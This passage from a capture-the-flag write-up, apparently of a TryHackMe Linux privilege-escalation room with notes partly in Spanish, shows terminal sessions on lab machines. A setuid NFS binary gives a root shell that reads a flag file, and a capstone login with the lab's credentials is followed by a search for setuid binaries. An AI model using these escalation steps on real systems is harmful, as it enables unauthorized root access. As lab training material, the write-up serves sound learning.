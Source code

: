### What is the content of the flag7.txt file?

```
karen@ip-10-10-181-70:/home/ubuntu/sharedfolder$ ./nfs2
root@ip-10-10-181-70:/home/ubuntu/sharedfolder# id
uid=0(root) gid=0(root) groups=0(root),1001(karen)
root@ip-10-10-181-70:/home/ubuntu/sharedfolder# cd ..
root@ip-10-10-181-70:/home/ubuntu# ls
sharedfolder
root@ip-10-10-181-70:/home/ubuntu# cd ..
root@ip-10-10-181-70:/home# ls
backup  matt  ubuntu
root@ip-10-10-181-70:/home# cd matt/
root@ip-10-10-181-70:/home/matt# ls
flag7.txt
root@ip-10-10-181-70:/home/matt# cat flag7.txt
THM-89384012
root@ip-10-10-181-70:/home/matt# 

```

## Task 12 Capstone Challenge

#### Accedemos a la maquina
- Username: leonard
- Password: Penny123

```
ssh leonard@10.10.164.245                          
The authenticity of host '10.10.164.245 (10.10.164.245)' can't be established.
ED25519 key fingerprint is SHA256:1dMTd32PB7hStUUoiefpE+ckRSQl9B6tlu4mBNO2v4k.
This key is not known by any other names.
Are you sure you want to continue connecting (yes/no/[fingerprint])? yes
Warning: Permanently added '10.10.164.245' (ED25519) to the list of known hosts.
(leonard@10.10.164.245) Password: 
Last login: Thu Oct 17 21:32:28 2024 from ip-10-100-2-58.eu-west-1.compute.internal
perl: warning: Setting locale failed.
perl: warning: Please check that your locale settings:
        LANGUAGE = (unset),
        LC_ALL = (unset),
        LANG = "C.UTF-8"
    are supported and installed on your system.
perl: warning: Falling back to the standard locale ("C").
[leonard@ip-10-10-164-245 ~]$ 
[leonard@ip-10-10-164-245 ~]$ 

```
### What is the content of the flag1.txt file?
#### buscamos binarios con suid

```
[leonard@ip-10-10-164-245 ~]$ find / -perm /4000 2>/dev/null

/usr/bin/base64
/usr/bin/ksu
/usr/bin/fusermount
/usr/bin/passwd
/usr/bin/gpasswd
/usr/bin/chage
/usr/bin/newgrp
/usr/bin/staprun
/usr/bin/chfn
/usr/bin/su
```